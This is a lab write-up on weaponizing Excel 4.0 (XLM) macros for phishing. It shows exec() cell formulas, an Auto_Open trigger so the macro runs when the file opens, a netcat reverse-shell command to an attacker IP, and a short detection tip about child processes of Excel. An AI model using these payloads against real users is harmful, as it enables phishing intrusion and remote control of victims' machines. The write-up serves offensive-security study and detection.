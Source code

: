 # Phishing: XLM / Macro 4.0

This lab is based on the research performed by [Stan Hegt from Outflank](https://outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/).

## Weaponization

A Microsoft Excel Spreadsheet can be weaponized by firstly inserting a new sheet of type "MS Execel 4.0 Macro":

![](../../.gitbook/assets/phishing-xlm-create-new.png)

We can then execute command by typing into the cells:

```text
=exec("c:\shell.cmd")
=halt()
```

As always the contents of shel.cmd is a simple NC reverse shell:

{% code-tabs %}
{% code-tabs-item title="c:\\shell.cmd" %}
```csharp
C:\tools\nc.exe 10.0.0.5 443 -e cmd.exe
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Note how we need to rename the `A1` cell to `Auto_Open` if we want the Macros to fire off once the document is opened:

![](../../.gitbook/assets/phishing-xlm-auto-open.png)

{% file src="../../.gitbook/assets/excel-4.0-macro-functions-reference-1.pdf" caption="Excel 4.0 Macro Functions Reference.pdf" %}

{% file src="../../.gitbook/assets/phishing-xlm.xlsm" caption="XLM Phishing.xlsm" %}

## Execution

Opening the document and enabling Macros pops a reverse shell:

![](../../.gitbook/assets/phishing-xlm-shell-auto-open.gif)

## Observations

As usual, look for any suspicious children originating from under the Excel.exe:

![](../../.gitbook/assets/phishing-xlm-procexp.png)

{% embed data="{\"url\":\"https://outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/\",\"type\":\"link\",\"title\":\"Old school: evil Excel 4.0 macros \(XLM\) \| Outflank Blog\",\"description\":\"<p>In this post, I will dive into Excel 4.0 macros \(also called XLM macros – not XML\) for offensive purposes. If you grew up in the Windows 95 age or later, just as I did, you might have never heard of this technology that was introduced as early as 1992. Virtually all malicious macro documents…</p>\",\"icon\":{\"type\":\"icon\",\"url\":\"https://outflank.nl/favicon.png\",\"aspectRatio\":0}}" %}

